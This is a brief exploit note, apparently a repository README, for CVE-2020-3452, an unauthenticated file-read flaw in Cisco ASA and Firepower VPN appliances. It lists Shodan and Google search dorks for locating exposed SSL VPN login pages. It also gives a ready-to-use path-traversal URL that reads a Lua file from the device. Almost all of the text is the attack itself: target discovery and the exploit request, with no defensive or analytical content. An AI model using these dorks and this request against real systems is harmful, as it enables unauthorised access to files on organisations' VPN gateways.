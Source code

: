 # CVE-2020-3452
## Unauthenticated file read in Cisco ASA & Cisco Firepower.

### Tools
```
shodandork : title:"SSL VPN service"
Google : inurl:+CSCOE+/logon.html

```


- Read "/+CSCOE+/portal_inc.lua" file

https://TARGET/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../


